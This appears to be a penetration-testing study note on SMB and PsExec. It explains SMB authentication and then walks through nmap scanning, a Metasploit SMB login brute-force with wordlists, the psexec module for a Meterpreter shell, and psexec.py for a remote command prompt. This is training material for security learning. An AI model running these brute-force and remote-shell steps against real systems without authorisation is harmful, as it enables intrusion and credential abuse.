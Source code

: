 - SMB (Server Message Block) is a ***network file sharing protocol*** that is used to facilitate the sharing of files and peripherals (printers and serial ports) between computers on a local network (LAN).
- SMB uses port 445 (TCP). However, originally, ***SMB ran on top of NetBIOS using port 139***.
- **SAMBA** is the open source Linux implementation of SMB, and ***allows Windows systems to access Linux shares and devices.***

### SMB Authentication
The SMB protocol utilizes two levels of authentication:
- User Authentication
- Share Authentication

**User Authentication**: Users must ***provide a username and password*** in order to authenticate with the SMB server in order to access a share.

**Share Authentication**: Users must ***provide a password*** in order to access restricted share.

Note: Both of these authentication levels utilize a ***challenge response authentication system***.

### PsExec
- PsExec is a lightweight talent-replacement developed by Microsoft that allows you execute processes on remote windows systems using any user's credentials.
- PsExec authentication is performed via SMB.
- We can use the PsExec utility to authenticate with the target system legitimately and run commands or launch a remote command prompt.
- It is similarly to RDP, however, instead of controlling the remote system via GUI, commands are sent via CMD.

### SMB Exploitation with PsExec
- In order to utilize PsExec to gain access to a Windows target, we will need to identify legitimate user accounts and their respective passwords or password hashes.
- This can be done by leveraging various tools and techniques, however, the most common technique will involve performing an SMB login brute-force attack.
- We can narrow down our brute-force attack to only include common windows user accounts like: Administrator.
- After we have obtained a legitimate user account and password, we can use the credentials to authenticate with the target system via PsExec and execute arbitrary system commands or obtain a reverse shell.

***
***
## Practical
#### Scan the Target
```
namp target
```

#### Find Supported Protocols and Dialects 
Once the port is discovered, run nmap script to list the supported protocols and dialects of a SMB server.
```
nmap -p445 --script smb-protocols target
```

#### Find all valid Users and their Passwords using Metasploit
```
search smb_login
use auxiliary/scanner/smb/smb_login
options
set user_file /usr/share/metasploit-framework/data/wordlists/common_users.txt
set pass_file /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
set verbose false
run
```

Once the valid users and their passwords are found.
#### Run PsExec Module to gain the Meterpreter Shell
```
search psexec
use explioit/windows/smb/psexec
set rhosts target
set smbuser username
set smbpass password
# set lhost and lport if not already
run
```

### Using PsExec Python Tool
To run the cmd prompt
```
psexec.py username@IP cmd.exe
```